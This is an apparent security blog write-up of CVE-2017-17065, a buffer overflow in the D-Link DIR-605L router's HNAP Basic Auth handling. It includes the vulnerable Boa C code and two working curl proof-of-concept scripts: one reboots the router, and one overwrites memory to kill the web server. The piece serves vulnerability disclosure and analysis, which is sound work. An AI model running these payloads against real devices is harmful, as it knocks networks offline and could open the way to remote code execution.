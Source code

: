 ```yaml
---
title: "CVE-2017-17065: D-Link DIR-605L HNAP Basic Authentication Buffer Overflow Discovery+Analysis"
layout: post
category: vuln-report
tags: dlink cve exploit vulnerability
---
```


## Overview
While testing different inputs in the HNAP functionality of the D-Link DIR-605L/B, I managed to cause a reboot of the device by sending sufficiently large string values in the HTTP Basic Authentication password field. If a long enough value was sent, the next request to the web server would cause the crash. The PoC script below triggers this behavior.


### Denial of Service PoC
```s
#!/usr/bin/env bash
TARGET='172.16.100.1'
pwn1=$(python -c "print('A'*120)")

curl -vv -u admin:"${pwn1}" --header "content-type: text/soap+xml; charset=utf-8" --data @soap.xml http://172.16.100.1/HNAP
curl -vv -u admin:pwned --header "content-type: text/soap+xml; charset=utf-8" --data @soap.xml http://172.16.100.1/HNAP
```

*Note: the xml file provided does not need to contain valid XML.*

### Details
- **Name**: D-Link Wireless N300 Cloud Router
- **Model**: DIR-605L Model B
- **Firmware Version**: <= 2.10B01
- **Vulnerability**: Denial of service, possibly RCE


## Code Analysis - Location of the Bug
I had previously downloaded an archive of all GPL code in use for this device and went looking for the Boa web server source code. After a bit of recursive grep action, I found what I was looking for. 

The bug is present in the file `requests.c`. Specifically, it is in the function `process_option_line()`. If a request uses the POST HTTP method and the request URI path is '/HNAP', a code block is reached that reads the portion of the request header that contains the Basic HTTP authentication string. The authentication string is passed to `base64decode()` and the resulting output is copied into a char array of size 128 bytes, `userAuth`. `sprintf()` then copies the data from the 128 byte array into the 50 byte char array `hnap_admin_password`. This results in a buffer overflow of 122-50 bytes.


```c
#if defined(SUPPORT_HNAP)
char hanp_admin_name[50]={0};
char hnap_admin_password[50]={0};
int hnap_auth_flag=0;
#endif

[...]

#if defined(SUPPORT_HNAP)
//if ((strncasecmp(req->request_uri, "/HNAP", 5) == 0)) {
if ((req->method == M_POST) && (strncasecmp(req->request_uri, "/HNAP", 5) == 0)) {
		if (strncasecmp((char *)line, "Authorization", 13) == 0) {
			char userAuth[0x80];
			char *cp;
			if (strncasecmp(value, "Basic ", 6)) {
				printf("Can only handle Basic auth\n");
				send_r_bad_request(req);
				return 0;
			}			
			base64decode(userAuth, value+6, sizeof(userAuth));				
			if ( (cp = strchr(userAuth,':')) == 0 ) {			
				printf("No user:pass in Basic auth\n");
				send_r_bad_request(req);
				return 0;
			}				
			*cp++=0;
			sprintf(hanp_admin_name, "%s",userAuth);
			if(cp[0]){
				sprintf(hnap_admin_password, "%s", cp);
			}else{
				hnap_admin_password[0]=0;
			}
			return 1;
		}
	}
#endif
```


## Exploitation: Potential Remote Code Execution PoC
Further testing showed that given 108 bytes of junk data followed by certain memory addresses, it was possible to kill Boa without crashing the entire device. This indicates that given a properly crafted payload, it may be possible to achieve code execution. The PoC script below reliably kills Boa and closes port 80 on the router without rebooting the device.

```s
#!/usr/bin/env bash
TARGET='172.16.100.1'
pwn1=$(python -c "print('A'*108+'\x7f\x80\x50\x01')")

curl -vv -u admin:"${pwn1}" --header "content-type: text/soap+xml; charset=utf-8" --data @soap.xml http://172.16.100.1/HNAP
curl -vv -u admin:pwned --header "content-type: text/soap+xml; charset=utf-8" --data @soap.xml http://172.16.100.1/HNAP
```

I have not yet written working shellcode to attempt to exploit this bug further, but it may be something I do in the future. 


## References
- [Mitre: CVE-2017-17065](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17065)
- [DIR-605L Firmware Downloads](http://support.dlink.com/productinfo.aspx?m=DIR-605L)
- [D-Link Security Advisory](ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-605L/REVB/DIR-605L_REVB_FIRMWARE_PATCH_NOTES_2.11betaB06_HBRF_EN.pdf)
- [GPL Source Code](http://tsd.dlink.com.tw/downloads2008detail.asp)